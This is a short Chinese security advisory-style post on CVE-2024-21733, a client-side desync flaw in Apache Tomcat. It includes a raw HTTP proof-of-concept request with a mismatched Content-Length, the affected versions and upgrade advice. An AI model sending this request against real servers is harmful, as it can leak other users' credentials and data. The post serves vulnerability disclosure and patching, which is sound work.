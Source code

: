 #  Apache Tomcat请求走私漏洞POC（CVE-2024-21733）   
cordium  幽荧安全   2024-08-13 19:40  
  
##   
  
**CVE-2024-21733漏洞描述**  
  
      从8.5.7到8.5.63，从9.0.0-M11到9.0.43的Apache Tomcat  
容易受到客户端不同步攻击。  
  
      当web服务器无法正确处理POST请求的Content-Length时，就会出现客户端不同步（CSD）漏洞。通过利用这种行为，攻击者可以迫使受害者的浏览器与网站的连接不同步，从而导致敏感数据从服务器和/或客户端连接中走私。  
  
      在某些情况下，这可能会泄露敏感数据，例如明文凭据。  
  
**漏洞POC**  
```
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/9mLqrfPo3BYwnXCvevDIabAqrWp6EljUlTXEKZa92qib28SLwMicTvTCGia0ASeYnSMjc7qWaYnOKxFPl7mShA5icg/640?wx_fmt=other&from=appmsg "")  
  
  
**受影响的版本**  
  
Apache Tomcat 9.0.0-M11 至 9.0.43  
  
Apache Tomcat 8.5.7 至 8.5.63  
  
**修复建议**  
  
      建议用户升级到8.5.64及以上版本或9.0.44及以上，其中包含此问题的修复程序。  
  
> **声明**  
  
  
  
切勿利用文章内容中的相关技术从事非法测试，所有测试需获得合法授权。非法利用此文所提供的信息而造成的任何直接或者间接损失的，其后果均由使用者本人负责，造成影响与作者以及幽荧安全无关。  
  
